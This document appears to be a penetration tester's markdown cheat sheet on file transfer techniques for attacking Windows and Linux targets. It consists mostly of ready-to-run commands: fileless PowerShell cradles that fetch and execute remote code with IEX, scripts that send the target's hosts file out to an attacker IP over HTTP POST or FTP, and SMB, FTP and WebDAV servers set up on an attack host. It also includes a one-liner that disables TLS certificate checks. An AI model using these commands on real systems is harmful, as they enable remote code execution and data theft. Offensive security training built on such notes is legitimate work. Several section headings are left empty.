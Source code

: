 # File Transfers
## References and Links
[Harmj0y Powershell download cradles](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)

## Linux File Transfers
## Windows File Transfers
### PowerShell Base64 Encode/Decode
```powershell
#Base64 Encode
[Convert]::ToBase64String((Get-Content -path "File_to_Encode" -Encoding byte))
#Base64 Decode
[IO.File]::WriteAllBytes("Output_File", [Convert]::FromBase64String("Base64_Encoded_Payload"))
```
### PowerShell Web Downloads
1. Files vs. Fileless  
a. Files = Download and save the file  
b. Fileless = Download and execute without saving the file 
```powershell
# File Download Example
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')

# Fileless Download Example
IEX (New-Object Net.WebClient).DownloadString('<Target File URL>')
# We can also pipe the input directly into IEX
(New-Object Net.WebClient).DownloadString('<Target File URL>') | IEX
``` 
Powershell v3.0 and later can use Invoke-WebRequest(by default is aliased to ```iwr```,```curl```, and ```wget```)
```powershell
Invoke-WebRequest <Target File URL> -OutFile <Output_File_Name>
```
<ins>**Common Errors with Powershell**</ins>  
Internet Explorer first-launch configuration not being completed will prevent downloads. To bypass, use ```-UseBasicParsing```
```Powershell
Invoke-WebRequest <Target file URL> -UseBasicParsing | IEX
```
SSL/TLS secure channel throws an error if the certificate is not trusted.  
Bypass:
```powershell
[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```
### SMB Downloads
Create a quick SMB server in Linux
```bash
# Simple Share
sudo impacket-smbserver share -smb2support /tmp/smbshare

# Share with Authenticated Access
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

CMD Copy a file from an SMB Server
```cmd
copy \\10.10.10.10\share\file
# This command will be blocked in modern OS's that don't allow unauthenticated guest access
```
CMD Map File share to drive letter with authentication
```cmd
net use n: \\10.10.10.10\share /user:username password
```
### FTP Downloads
FTP Setup on linux attack host
```bash
# Install 
sudo apt install python3-pyftpdlib
# Specify the port, by default pyftpdlib uses port 2121
sudo python3 -m pyftpdlib --port 21
```

Download via FTP using Powershell
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://10.10.10.10/file.txt', '<Output_File_Name>')
```

Create a batch file to download our file (useful if we don't have an interactive shell)
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
### PowerShell Web Uploads
PowerShell doesn't have built-in upload functionality, so we'll have to build it or download it.

Linux Upload Server
```bash
# Install
pip3 install uploadserver

# Usage
python3 -m uploadserver
```

PowerShell Script to Upload a file
```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File <File_to_upload>
```
Powershell Base64 WebUpload
```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
# Convert file to base64 and enter into variable $b64
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
# Send a web request with the base64 variable in the body
# catch the string with netcat on the other end, and base64 decode the body, giving you the original file
```
### SMB Uploads
Installing WebDav Server
```bash
# apt
sudo apt install python3-wsgidav
# pip
sudo pip3 install wsgidav cheroot
```
Starting the webdav python module
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
```
Connecting to the WebDav share from Windows
```cmd
dir \\10.10.10.10\DavWWWRoot
# DavWWWRoot is not the name of a share. It's a special keyword fro the mini-redirector driver to connect to a webdav share
```
Uploading files using SMB WebDAV
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
```
### FTP Uploads
```powershell
(New-Object Net.WebClient).UploadFile('ftp://10.10.10.10/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
Create a command file for the client to upload a file (useful in limited shells)
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
## Transferring with Code
## Misc File Transfer Methods
## Catching files over HTTP/S
